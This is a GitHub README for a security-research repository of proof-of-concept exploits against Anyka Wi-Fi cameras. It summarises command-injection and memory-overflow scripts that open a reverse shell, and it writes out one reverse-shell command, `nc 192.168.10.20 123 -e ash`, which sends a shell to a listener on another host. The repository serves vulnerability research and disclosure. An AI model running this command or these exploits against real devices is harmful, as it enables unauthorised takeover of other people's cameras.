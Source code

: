 # Anyka-Camera-Analysis

<p align="center">

  <img src="https://github.com/luke-r-m/Anyka-Camera-Analysis/assets/47477832/eda0d9a9-cd27-41bc-bf77-b49bb1a2867c" width="200">

</p>

This is a repository containing proof-of-concept exploits for getting a remote reverse shell while the Anyka camera is hosting hotspot (cheap Aliexpress camera's mostly). Also contains scripts for interacting with various open ports on the device.

## Blogs

[Analysing a Wireless Network Camera [1]: Teardown and Access Point Bugs](https://luke-m.xyz/vr/analysing_a_wireless_network_camera_part_1.md)

[Analysing a Wireless Network Camera [2]: Popping Shells](https://luke-m.xyz/vr/analysing_a_wireless_network_camera_part_2.md)

## *daemon*

These exploits/PoCs concern the daemon process running on the camera.

### daemon_6789_cmd_injection.py

This script will exploit a command injection on port 6789 hosted by the daemon process, it will execute the command `nc 192.168.10.20 123 -e ash` to set up a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123.

### daemon_6789_global_overflow.py

This script uses a global overflow in port 6789 handler in daemon and requests to port 8192 to leak a pointer, then exploits a stack overflow to establish a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123.

### daemon_6789_stack_overflow.py

This script uses the exposed FTP server to leak the `/proc/425/maps` file to get libc base address in daemon process then exploits a stack overflow to establish a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123

### daemon_8192_interact.py

This script simply requests to port 8192 to get some information about the camera.

## *anyka_ipc*

These exploits/PoCs concern the *anyka_ipc* process running on the camera, this process links a shared library called *libcloudapi* that exposes port 6000.

### libcloudapi_6000_ap_bind.py

This script can be used to send credentials to the camera, and it will then attempt to bind to the specified AP.

### libcloudapi_6000_ap_log.py

This script returns the length of a log file, note that the desired log directory is not created by default, so it will cause the *anyka_ipc* process to crash.

### libcloudapi_6000_ap_preview.py

This script returns some camera details.

### libcloudapi_6000_ap_update_name_file_cmd_injection.py

This script exploits a command injection in the libcloudapi hosted port 6000 to establish a reverse shell for some other device listening on the network with IP 192.168.10.20 listening on port 123.

### libcloudapi_6000_ap_update_name_file_write.py

This script allows the file with the passed filename to be written onto the device in the `/tmp` directory.
